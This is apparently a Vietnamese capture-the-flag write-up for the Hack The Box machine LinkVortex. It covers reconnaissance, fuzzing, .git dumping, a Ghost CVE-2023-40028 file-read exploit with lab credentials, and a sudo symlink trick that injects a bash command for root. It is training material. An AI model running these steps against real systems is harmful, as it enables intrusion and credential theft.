

<p align="center"></p>

# LinkVortex Hackthebox
## Nmap, 
### Nmap
```
nmap -sCV 10.10.11.47 -oA nmap/output
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://linkvortex.htb/
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr 18 09:27:26 2025 -- 1 IP address (1 host up) scanned in 27.67 seconds
</pre>

### Đặt hosts
```
echo "10.10.11.47 linkvortex.htb" | sudo tee -a /etc/hosts
```
<p align="center"></p>

### Lần này, tệp robots.txt có bốn trang mục nhập không được phép. Hãy điều hướng đến http://linkvortex.htb/ghost và xem chúng ta tìm thấy .
Chạy lệnh sau tìm subdomain
```
ffuf -w /usr/share/amass/wordlists/bitquark_subdomains_top100K.txt -H "Host:FUZZ.linkvortex.htb" -u http://linkvortex.htb/ -ic -fs 230
```
### Tìm thấy được domain dev
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
dev [Status: 200, Size: 2538, Words: 670, Lines: 116,Duration: 57ms]
</pre>

### Thêm hosts
```
echo "10.10.11.47 dev.linkvortex.htb" | sudo tee -a /etc/hosts
```
### Tìm path
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://dev.linkvortex.htb/FUZZ -ic -t 20

```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
.git [Status: 301, Size: 239, Words: 14, Lines: 8, Duration:68ms]
</pre>
### Dùng gitdummper
```
git-dumper http://dev.linkvortex.htb /tmp/gitdump

```
### Check source thấy password

<p align="center"></p>

### vào trang admin bằng tk admin@linkvortex.htb

<p align="center"></p>

### Check version 5.58.0 của Ghost tìm file exploit
```
git clone https://github.com/0xDTC/Ghost-558-Arbitrary-File-Read-CVE-2023-40028.git
```
### Chạy lệnh 
```
./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
```
Tìm file `/var/lib/ghost/config.production.json`
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
"host": "linkvortex.htb",
"port": 587,
"auth": {
"user": "bob@linkvortex.htb",
"pass": "fibber-talented-worth"
</pre>

### SSH vào server 
```
ssh bob@linkvortex.htb
```

### Check sudo -l 
```
ssh bob@linkvortex.htb
```

### Tạo file vào tạo symlink
```
ln -sf /abc /dev/shm/test.png
CHECK_CONTENT=bash sudo /usr/bin/bash /opt/ghost/clean_symlink.sh /dev/shm/test.png
```
<p align="center"></p>